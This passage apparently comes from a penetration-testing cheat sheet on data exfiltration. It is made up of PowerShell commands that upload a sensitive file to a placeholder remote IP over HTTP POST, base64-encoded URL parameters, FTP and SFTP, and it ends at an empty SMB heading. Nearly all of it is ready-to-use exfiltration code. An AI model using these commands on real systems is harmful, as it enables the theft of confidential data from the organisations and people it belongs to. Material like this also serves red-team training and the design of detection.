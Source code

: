 ```
Invoke-WebRequest -Uri "http://<remote_ip>/upload" -Method Post -Body "Sensitive Data"
```

Stream Data Directly to a Remote Server:

```
$Stream = [System.IO.File]::OpenRead("C:\Temp\sensitivefile_copy.txt")
Invoke-WebRequest -Uri "http://<remote_ip>/upload" -Method Post -InFile $Stream
$Stream.Close()
```

# Data Exfiltration via Standard Protocols

#### HTTP/HTTPS

Upload Data via HTTP POST:

```
Invoke-WebRequest -Uri "http://<remote_ip>/upload" -Method Post -InFile "C:\Temp\sensitivefile_copy.txt"
```

Exfiltrate Data by Encoding in URL Parameters:

```
$Data = [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\sensitivefile_copy.txt"))
Invoke-WebRequest -Uri "http://<remote_ip>/upload?data=$Data"
```

#### FTP

Exfiltrate Files Using FTP:

```
$WebClient = New-Object System.Net.WebClient
$WebClient.Credentials = New-Object System.Net.NetworkCredential("username", "password")
$WebClient.UploadFile("ftp://<remote_ip>/sensitivefile.txt", "C:\Temp\sensitivefile_copy.txt")
```

#### SFTP

Exfiltrate Files Using SFTP:

```
$SFTP = New-Object WinSCP.SessionOptions
$SFTP.Protocol = [WinSCP.Protocol]::Sftp
$SFTP.HostName = "<remote_ip>"
$SFTP.UserName = "username"
$SFTP.Password = "password"
$Session = New-Object WinSCP.Session
$Session.Open($SFTP)
$Session.PutFiles("C:\Temp\sensitivefile_copy.txt", "/path/to/remote/directory/").Check()
```

#### SMB
